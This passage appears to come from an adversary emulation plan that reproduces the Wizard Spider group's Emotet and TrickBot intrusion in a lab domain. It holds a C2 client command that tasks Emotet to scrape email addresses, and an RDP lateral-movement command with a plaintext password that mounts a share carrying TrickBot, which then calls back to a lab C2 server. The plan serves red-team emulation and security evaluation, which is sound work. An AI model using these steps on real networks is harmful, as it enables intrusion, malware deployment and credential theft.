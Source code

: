 ```bash
# Emotet has been observed leveraging a module that can scrape email addresses from Outlook.[3][4]

./evalsC2client.py --set-task DOROTHY_DABB41A5 8
```
[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L99)

:warning: Sign out of RDP session: `Right-click Windows icon -> Shut down or sign out -> Sign out`

<br>

### :microscope: Cited Intelligence
* https://unit42.paloaltonetworks.com/emotet-command-and-control/

* https://www.cisecurity.org/white-papers/ms-isac-security-primer-emotet/

* https://securityintelligence.com/new-banking-trojan-icedid-discovered-by-ibm-x-force-research/

* https://global.ahnlab.com/global/upload/download/asecreport/ASEC%20REPORT_vol.88_ENG.pdf

<br>

## Step 4 - Move Laterally Deploy TrickBot

:microphone: `Voice Track:`

During this step, Wizard Spider uses bill's credentials to RDP into Toto.

Wizard Spider uploads and executes a malicious EXE based on TrickBot. 

Trickbot is uploaded to target using an RDP-mounted network share.

Once executed, Trickbot calls back to the C2 server over HTTP.

```
Compromised user info:

User:	bill@oz.local

System: 10.0.0.8 / toto

File Write (Tribot EXE): %AppData%\uxtheme.exe

C2:	192.168.0.4:447 HTTP - no encryption or obfuscation
```

---

### :biohazard: Procedures

Change your RDP tab name to "RDP into Toto"

RDP into Toto and create RDP drive that has TrickBot folder structure

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

cd ~/
xfreerdp +clipboard /u:oz\\bill /p:"Fall2021" /v:10.0.0.8 /drive:X,wizard_spider/Resources/TrickBot/WNetval
```
